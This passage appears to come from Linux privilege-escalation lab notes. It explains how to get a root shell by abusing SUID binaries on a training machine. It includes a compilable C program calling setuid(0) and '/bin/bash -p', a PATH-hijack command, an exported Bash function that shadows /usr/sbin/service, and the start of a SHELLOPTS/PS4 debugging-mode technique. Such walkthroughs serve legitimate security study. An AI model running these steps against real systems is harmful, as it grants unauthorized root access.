 It seems that `service` is attempting to run `apache2` without using the full path of `/usr/sbin/service` in the suid-env executable, which is confirmed using `strings` and `strace`.

Compile the following code with `gcc -o service /home/user/service.c` to create an executable called service.
```c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

Run `/usr/local/bin/suid-env` while prepending the directory of the new service executable to the PATH environment variable to spawn a root shell.
```bash
PATH=/home/user/:$PATH /usr/local/bin/suid-env
```

### Abusing Shell Features

#### Defining Shell Functions (Bash <4.2-048)
In Bash versions `<4.2-048`, it is possible to define shell functions with an absolute path. These shell functions can be exported and can take precedence over the actual executable that is being called.

Find files with the SETUID bit set and use `strings` to check if any of those files are attempting to execute programs with an absolute path.
```bash
find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
strings /usr/local/bin/suid-env2

#output from strings
/usr/sbin/service apache2 start
```

Check the Bash version.
```bash
/bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
```

Create a function named `/usr/sbin/service` that executes `/bin/bash -p` and export the function.
```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run `/usr/local/bin/suid-env2` and the function we just exported will have precedence over the original `/usr/sbin/service` that was being called, which in turn will spawn a root shell.
```bash
/usr/local/bin/suid-env2
```

#### Debugging Mode (Bash <4.4)
Bash's debugging mode can be enabled by modifying the `SHELLOPTS` environment variable to include `xtrace`, and the `env` command allows SHELLOPTS to be set. When in debugging mode, Bash uses the `PS4` environment variable to display an extra prompt for debug statements which can include an embedded command that will execute every time.
